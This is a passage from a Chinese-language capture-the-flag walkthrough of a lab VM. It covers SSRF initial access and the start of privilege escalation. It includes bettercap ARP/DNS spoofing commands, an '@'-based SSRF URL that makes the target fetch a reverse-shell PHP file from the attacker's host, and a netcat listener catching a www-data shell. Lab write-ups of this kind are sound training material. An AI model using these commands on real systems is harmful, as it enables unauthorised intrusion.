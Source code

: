 # **二、初始访问**

## Web 渗透 (SSRF)

网站主页提供了一个功能，允许通过 URL 参数 `?url=` 来加载指定的页面。

![image-20250803190055070](http://7r1UMPHK.github.io/image/20250803190055290.webp)

经过测试，发现后端对 URL 进行了限制，只允许加载以 `http://open` 开头的地址，并且会解析`info.txt `，那就有一个作弊的方法

```bash
sudo bettercap
set arp.spoof.targets 192.168.205.239
set dns.spoof.domains http://open.cnm
set dns.spoof.address 192.168.205.128
arp.spoof on
dns.spoof on
```

DNS劫持,然后挂一个反弹shell服务

当然这是作弊的方法，正常的思路是这个过滤机制可以通过在 URL 中使用 `@` 符号来绕过，这是一种典型的服务器端请求伪造 (SSRF) 漏洞。我们可以利用此漏洞，使服务器请求并执行我们托管的恶意文件。

**攻击步骤:**
1.  在攻击机 (Kali) 上创建一个反弹 shell 的 PHP 文件 (`reverse.php`)。
2.  在攻击机上开启一个临时的 HTTP 服务器。
3.  构造恶意的 URL，利用 `@` 符号绕过主机验证，并指向攻击机上的反弹 shell 文件。
4.  在 Kali 上开启 `netcat` 监听。

**恶意 URL:**
```
http://open.dsz/?url=http://open.dsz@192.168.205.128/reverse.php
```

访问上述 URL 后，成功在本地 `netcat` 监听器上接收到了来自目标服务器的 `www-data` 用户反弹 shell。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nc -lvnp 8888       
listening on [any] 8888 ...
connect to [192.168.205.128] from (UNKNOWN) [192.168.205.239] 45778
...
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# **三、权限提升**

## 1. 从 `www-data` 到 `miao`

获取初始 shell 后，在 `/home` 目录下发现了 `giao`, `miao`, `xiao` 三个用户。在 `/opt` 目录中，发现了一个具有 SUID 权限的可执行文件 `echo`。
